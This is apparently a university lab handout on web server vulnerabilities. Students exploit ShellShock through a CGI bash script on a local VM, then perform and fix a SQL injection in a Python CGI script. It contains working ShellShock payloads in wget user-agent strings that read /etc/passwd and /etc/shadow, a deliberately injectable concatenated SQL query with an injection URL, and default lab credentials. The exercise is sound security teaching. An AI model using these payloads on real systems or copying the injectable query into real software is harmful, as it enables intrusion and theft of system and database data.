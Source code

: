 
* HTTPd server vulnerabilities

This time we are going to look at some of vulnerabilities of Web servers. In both cases, they are software errors. But each of them is very different.


* Get the virtualbox VM.

For this lab you will run a virtual box virtual machine that you can fully configure as superuser. I have prepared one for you.

Each of the lab machines has a directory =/seng/seng360/=. In it create a directory with your username, and inside a directory called =vm=. For example, for me
it will be called =/seng/seng360/dmg/vm=.

1. Download the VM (the instructor will tell you where from. Uncompress/untar it and place it under the =vm= directory you just created.
2. Run virtual box with the command =virtualbox=
3. At this point no virtual box is setup up. Go to /File,Preferences/ and in the /General/ section change the /Default Machine Folder/ to point to the directory
   you created above (in my case =/seng/seng360/dmg/vm=). Leave everything else the same.
4. Now add the virtualbox: Using the menu option /Machine, Add/ select the virtualbox inside the =/seng/seng360/<user>/vm/seng360bare= directory.
5. At this point you main screen should be something like this:

[[file:vmBare.png]]
  

* Configure the virtual machine

Make sure that the following ports are been forwared in the your virtual machine. See:

http://stackoverflow.com/questions/5906441/how-to-ssh-to-a-virtualbox-guest-externally-through-a-host)

| Name | Protocol | Host Port | Guest IP | Guest Port |
|------+----------+-----------+----------+------------|
| HTTP | TCP      | 3080      |          | 80         |
| SSH  | TCP      | 3030      |          | 22         |


* Start your virtual machine

Once you run the virtual machine you should be able to SSH to the virtual machine using port 3080 in the localmachine, and the webserver will be running in port 3080
You can test both with telnet

#+BEGIN_SRC
telnet localhost 3030
#+END_SRC

and

#+BEGIN_SRC
telnet localhost 3080
#+END_SRC

You can then use ssh to connect to the virtual machine, or you can login into the machine directly.


* Login to the virtual box and change the passwords

| what      | user    | password   |
|-----------+---------+------------|
| user      | user360 | user360    |
|           | root    | root360lab |

* the ShellShock bug

Go to CERT Coordination Center (cert.org)

*Question 1* What is the purpose of the CERT Coordination Center?

*Question 2* What is a CVE?

*Question 3* What are the CVEs that relate to the ShellShock bug?

Find and read Vulnerability Note VU#252743. This note will point you to a RedHat blog where the bug is described.

*Question 4* What are the tests for the vulnerabilities in each of the main two CVEs?

* Test the vulnerability

Given your answer to *Question 4*, check if =bash= is vulnerable (it is).

* Exploiting the vulnerability

** Web server

Your virtual machine is already running Apache on port 80 (port 3080 for this host machine). Apache configuration files are located at =/etc/apache2=

** Enable cgi

Enable =cgid= module. See https://help.ubuntu.com/10.04/serverguide/httpd.html

The documentation on =cgid= is http://httpd.apache.org/docs/current/mod/mod_cgid.html

** Create a script to test cgi

Create a simple "hello world" script in whichever language you choose. Test it. Call this script =test.cgi=. Place it such that http://localhost/cgi-bin/test.cgi (if you are in the VM)
or http://localhost:3080/cgi-bin/test.cgi (from the host machine) to test it.

If necessary, you can inspect the access/error logs of apache. They are located at =/var/log/apache2=

** Create a bash script

Now that you can run cgi scripts, make a bash script called =test.bash=

#+begin_src bash
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello world"
whoami
echo "End of the world"
#+end_src

Test it.

*Question 5* What user is the one executing the scripts? (see the output of whoami above). Why does apache use that user?

** /etc/passwd and /etc/shadow

read the man page of shadow (man shadow). Inspect the files /etc/passwd and /etc/shadow

 *Question 6* Why does Linux maintain =/etc/shawdow=?

 *Question 7* what is the difference between =/etc/passwd= and =/etc/shadow=

** The attack

Now we can try the attack. Using =wget= run:

#+begin_src bash
wget -O /tmp/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:3080/cgi-bin/test.bash
#+end_src

Test it. What do you get?

*Question 8* Given your knowledge of the vulnerability, explain how the attack works.

** Try again

#+begin_src bash
wget -O /tmp/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/shadow" http://localhost:3080/cgi-bin/test.bash
#+end_src

*Question 9* Explain why this attack didn't work.

*Question 10* What is the vulnerability in the /etc/password attack?


** How the attack is passed to bash

Try the same attack on this script. It simply prints the environment variables that are passed to the script.

#+begin_src perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
foreach $key (keys %ENV) {
print "$key --> $ENV{$key}<br>";
}
#+end_src

*Question 11* In which environment variable passed to the script?

Modify your script attack to try other commands. Try to execute, for example =ls -lR /etc= or =ls -lR /home/=

* Set up a database

Your user =seng360= has a postgres database called =lab5=. Using psql connect to it. Create a table called =test= with the following schema.  

#+begin_src sql
create table test(
   id integer primary key,
   value integer);
#+end_src

Allow anybody =select= to the table =test=:

#+begin_src sql
grant select on test to public;
#+end_src


Insert 10 tuples into the table =test=. The table should looks something like this. Make sure you include a tuple with /id=5/

#+begin_example
lab5=# select * from test ;
 id | value
----+-------
  1 |    10
  2 |    20
  3 |    30
  4 |    40
  5 |    30
  6 |    40
  7 |    30
  8 |    40
  9 |  1030
 10 |  1040
(10 rows)
#+end_example

Create a user called =web= with password =webserver=. See http://www.postgresql.org/docs/9.1/static/app-createuser.html

Test that the user =web= can connect to the database and see the table

#+begin_example
psql -h localhost -U web lab5
#+end_example

* Python and sql

Use the following python script. It should be able to display the tuple with id value equal 5 (make sure there is one in your table).

#+begin_src python
#!/usr/bin/python

import psycopg2

try:
    conn = psycopg2.connect("dbname='lab5' user='web' host='localhost' password=
'webserver'")
except:
    print "I am unable to connect to the database"

cur = conn.cursor()

id = "5"

try:
    cur.execute("""SELECT * from test where id = """ + id)

except:
    print "I can't SELECT from test"


rows = cur.fetchall()
print "<h2>Data</h2>"
print "<table border=1>"
for row in rows:
    print "<tr><td>", row[0], '</td><td>', row[1], '</td></tr>'

print "</table>"

#+end_src

** Create a cgi-script

Convert this program into a cgi-script that uses POST method to set the value of =id=. It respond to this request:

#+begin_example
http://localhost/cgi-bin/sql.py?id=5
#+end_example

** An injection attack

Try now the following URL:

#+begin_example
http://localhost/cgi-bin/sql.py?id=5%20or%20TRUE
#+end_example

*Question 12* What is the result of this query?
*Question 13* Why? (hint, decode the =%20= (it is a character in hexadecimal) then follow the value of id.

** Fix your script

Learn how to protect your script. Hint: lookup /prepared statements/ in Psycogp2

*Question 14* How is the sql injection vulnerability removed?

* What to submit

- Submit your answers to the questions above in a simple text file.
- Submit your python program where you fix the SQL vulnerability
